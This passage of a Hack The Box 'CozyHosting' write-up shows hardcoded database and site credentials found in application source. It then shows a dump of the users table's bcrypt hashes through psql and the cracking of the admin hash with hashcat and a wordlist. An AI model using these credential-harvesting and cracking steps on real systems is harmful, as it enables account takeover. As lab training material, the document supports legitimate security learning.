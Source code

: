 
we find *application.properties* which contains a postgresql username and password.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


*FakeUser.class* has *kanderson*'s website credentials

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
username=kanderson&password=MRdEQuv6~6P9
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


connect to psql

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
app@cozyhosting:/app$ psql --host=localhost --username=postgres --dbname=cozyhosting
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

select * from users
;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


add admin's password to a file, and crack the password using hashcat

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/CozyHosting/files]
└─$ echo '''$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm''' > pass.txt 

┌──(kali㉿kali)-[~/HTB/CozyHosting/files]
└─$ hashid pass.txt       
--File 'pass.txt'--
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'pass.txt'--     

┌──(kali㉿kali)-[~/HTB/CozyHosting/files]
└─$ hashcat pass.txt -m 3200 /usr/share/wordlists/rockyou.txt  
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
